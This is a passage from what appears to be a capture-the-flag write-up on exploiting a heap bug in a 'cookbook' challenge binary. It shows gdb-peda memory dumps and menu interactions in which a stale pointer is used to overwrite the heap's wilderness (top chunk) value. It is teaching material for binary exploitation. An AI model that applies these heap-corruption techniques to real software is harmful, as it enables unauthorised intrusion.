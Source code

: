 ```
0024| 0xffffcee0 --> 0x0 
0028| 0xffffcee4 --> 0xf7fae5e7 --> 0xfaf87c0a 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGINT
0xf7fd7c89 in __kernel_vsyscall ()
gdb-peda$ x/40wx 0x804f2b0
0x804f2b0:	0xf7fae9e8	0xf7fae9e8	0x0804f2a8	0x0804f2a8
0x804f2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f2e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f2f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f300:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f310:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f320:	0x00000000	0x00000000	0x00000000	0x00000000
0x804f330:	0x00000000	0x00000000	0x00000000	0x0804f2b0
0x804f340:	0x38323735	0x00000379	0xf7fae7b0	0xf7fae7b0
gdb-peda$ x/2wx 0x804f348
0x804f348:	0xf7fae7b0	0xf7fae7b0
```

So we can see here there is a new wilderness value at `0x804f348` which is within the area we can write to it using our stale pointer. Let's try that.

```
gdb-peda$ c
Continuing.
d
====================
[l]ist current stats?
[n]ew ingredient?
[c]ontinue editing ingredient?
[d]iscard current ingredient?
[g]ive name to ingredient?
[p]rice ingredient?
[s]et calories?
[q]uit (doesn't save)?
[e]xport saving changes (doesn't quit)?
q
====================
[l]ist ingredients
[r]ecipe book
[a]dd ingredient
[c]reate recipe
[e]xterminate ingredient
[d]elete recipe
[g]ive your cookbook a name!
[R]emove cookbook name
[q]uit
c
[n]ew recipe
[d]iscard recipe
[a]dd ingredient
[r]emove ingredient
[g]ive recipe a name
[i]nclude instructions
[s]ave recipe
[p]rint current recipe
[q]uit
i
00001111222233334444
[n]ew recipe
[d]iscard recipe
[a]dd ingredient
```